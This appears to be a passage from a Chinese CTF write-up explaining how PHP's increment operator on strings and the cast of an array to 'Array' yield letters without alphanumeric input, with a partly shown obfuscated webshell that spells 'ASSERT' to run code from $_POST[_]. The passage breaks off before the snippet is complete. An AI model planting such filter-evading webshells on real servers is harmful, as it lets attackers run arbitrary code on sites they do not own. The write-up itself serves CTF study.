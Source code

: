 ![](images/ctf-2021-06-19-13-54-12.png)

方法三:http://php.net/manual/zh/language.operators.increment.php

![](images/ctf-2021-06-19-13-54-49.png)

也就是说，'a'++ => 'b'，'b'++ => 'c'... 所以，我们只要能拿到一个变量，其值为a，通过自增操作即可获得a-z中所有字符。

那么，如何拿到一个值为字符串'a'的变量呢？

巧了，数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array：

![](images/ctf-2021-06-19-13-55-07.png)

再取这个字符串的第一个字母，就可以获得'A'了。

利用这个技巧，我编写了如下webshell（因为PHP函数是大小写不敏感的，所以我们最终执行的是`ASSERT($_POST[_])`，无需获取小写a）：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
```